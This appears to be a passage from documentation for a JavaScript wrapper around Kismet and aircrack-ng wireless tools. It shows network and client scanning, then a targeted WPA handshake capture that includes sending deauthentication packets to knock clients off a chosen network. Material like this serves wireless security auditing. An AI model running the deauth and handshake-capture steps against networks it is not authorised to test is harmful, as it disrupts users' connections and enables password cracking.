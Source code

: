 ### Comprehensive Scanning with Kismet
```javascript
// Start Kismet server first
await kismet_start_server({
  interface: "wlan0",
  port: 2501,
  logDir: "/tmp/kismet-logs"
});

// Wait a moment for server to initialize
await new Promise(resolve => setTimeout(resolve, 5000));

// Scan for networks
const networks = await kismet_scan_networks({
  timeout: 60
});

// Detect clients on all networks
const clients = await kismet_detect_clients({
  timeout: 30
});

// Or filter by specific BSSID
const specificClients = await kismet_detect_clients({
  bssid: "AA:BB:CC:DD:EE:FF",
  timeout: 30
});
```

## Handshake Capture

### Targeted Handshake Capture
```javascript
// Step 1: Scan to find target network details
const scan = await aircrack_scan_networks({
  interface: "wlan0mon",
  timeout: 20
});

// Step 2: Find your target network
const target = scan.networks.find(n => n.ssid === "TargetNetwork");

// Step 3: Capture handshake
const handshake = await aircrack_capture_handshake({
  interface: "wlan0mon",
  bssid: target.bssid,
  channel: target.channel,
  timeout: 300  // Wait up to 5 minutes
});

// Optional: Speed up handshake capture with deauth
await aircrack_deauth_client({
  interface: "wlan0mon",
  bssid: target.bssid,
  count: 3  // Send 3 deauth packets
});
```
